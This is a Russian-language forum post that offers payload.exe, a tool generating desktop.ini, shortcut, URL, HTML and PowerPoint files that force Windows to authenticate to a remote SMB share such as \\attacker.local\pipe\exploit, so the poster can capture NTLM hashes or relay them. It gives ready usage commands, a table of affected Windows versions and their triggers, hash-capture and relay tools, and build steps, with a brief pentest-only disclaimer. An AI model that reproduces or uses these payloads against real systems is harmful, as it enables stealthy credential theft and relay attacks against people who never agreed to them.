


HMCoba
Форумчанин
- Регистрация
- 14.06.2025
- Сообщения
- 30
- Реакции
- 42

Payload.exe — генератор файлов для NTLM-атаки через SMB/PIPE
Привет всем!
Хочу поделиться полезным инструментом, который может пригодиться - payload.exe, позволяет генерировать файлы, которые провоцируют NTLM-авторизацию при открытии или просмотре. Полезен в рамках Red Team-практик, пентестов и демонстрации уязвимостей.
Описание:
payload.exe — это инструмент, предназначенный для создания файлов, которые при взаимодействии пользователя с системой (например, просмотр папки, открытие ярлыка, загрузка HTML или Office-документа) инициируют автоматическое подключение Windows к удалённому сетевому ресурсу:
Код:
\\192.168.1.100\share
\\attacker.local\pipe\exploitТакое подключение вызывает отправку Windows NTLM-аутентификации, что позволяет:
• Перехватывать хэши паролей
• Выполнять relay-атаки через SMB
• Демонстрировать техники социальной инженерии
• Тестировать защищённость Windows-инфраструктуры
 Поддерживаемые типы файлов (параметр -t):
Поддерживаемые типы файлов (параметр -t):
Код:
d0…d4 - desktop.ini с различными полями:
d0 - IconFile + LocalizedResourceName + InfoTip
d1 - Только IconFile
d2 - Только LocalizedResourceName
d3 - Только InfoTip
d4 - [LocalizedFileNames] с desktop.ini
u - payload.url (Internet Shortcut)
l - payload.lnk (ярлык с иконкой из сети)
h - payload.html (стили по ссылке res:// или file://)
o - payload.pps (Office-файл с удалённой CSS) Аргументы командной строки:
Код:
-t Тип payload-файла (обязательный)
-d Сетевой путь (например, \\192.168.1.100\share)
-p Локальный путь для сохранения файла (по умолчанию — текущая папка)Примеры использования:
Создание desktop.ini для подключения к SMB:
Код:
payload.exe -t d1 -d \\192.168.1.100\pipe\exploit -p C:\ExploitFolderСоздание LNK с иконкой по SMB:
Код:
payload.exe -t l -d \\192.168.1.100\share\icon.ico -p C:\TestСоздание HTML, подключающего удалённый CSS:
Код:
payload.exe -t h -d \\192.168.1.100\res\exploit.css -p C:\TestСоздание "офисного" PPS-документа:
Код:
payload.exe -t o -d \\192.168.1.100\style.css -p C:\Test Совместимость payload-файлов с версиями Windows:
Совместимость payload-файлов с версиями Windows:| Тип файла | Версии Windows | Триггер подключения |
|---|---|---|
desktop.ini | XP – 10 | Открытие папки в проводнике вызывает загрузку иконки |
| .lnk (ярлык) | XP – 11 | Наведение/предпросмотр запускает загрузку иконки по SMB |
| .url (Internet Shortcut) | XP – 10 | Открытие ссылки инициирует обращение к сетевому ресурсу |
| .html | XP – 10, Outlook | Загрузка внешнего CSS/ресурса при открытии HTML |
| .pps (PowerPoint) | Office 2003 – 2016 | При открытии Office запрашивает внешний стиль |
| desktop.ini с [LocalizedFileNames] | XP – 10 | Explorer запрашивает локализованное имя — SMB-запрос |
Примечание: в Windows 11 часть механизмов может быть отключена по умолчанию (например, NTLM/SMBv1), но работают при определённых настройках.
 Результат работы:
Результат работы:В указанной директории появится один из следующих файлов:
Код:
• desktop.ini
• payload.url
• payload.lnk
• payload.html
• payload.ppsПри взаимодействии с этими файлами (просмотр, клик, предпросмотр и т.д.) произойдёт фоновое подключение к удалённому ресурсу.
 ВАЖНО:
ВАЖНО:• Работает на Windows (включая старые версии, а также новые — при определённых настройках)
• Не требует запуска .exe пользователем — работает через поведение Explorer/Office
• Использовать только в рамках этического хакинга и пентестов
• НЕ ИСПОЛЬЗОВАТЬ - без согласия владельца инфраструктуры
Инструменты для захвата NTLM-хэшей:
Код:
• Responder — https://github.com/lgandx/Responder
• ntlmrelayx (из Impacket)
• Metasploit smb-relay
• Cain & Abel (устаревший) Сборка исходника (payload.c):
Сборка исходника (payload.c):Для Windows:
Код:
cl payload.c /Fe:payload.exeИли с помощью MinGW:
Код:
gcc payload.c -o payload.exe Назначение:
Назначение:Этот код — Proof-of-Concept и используется:
• В обучении
• В Red Team операциях
• Для проверки наличия SMBv1, отсутствия защиты NTLM relay, настройки групповых политик (GPO).
ZIP-архив с исходником и примером .url-payload: payload.rar
Пароль: 1111
Автор: Andres Tarasco Acuna (2006–2008)
Сайт проекта: Experts in cyber security and cyber intelligence
Используйте с умом. Любая атака без разрешения - нарушение закона.
Последнее редактирование: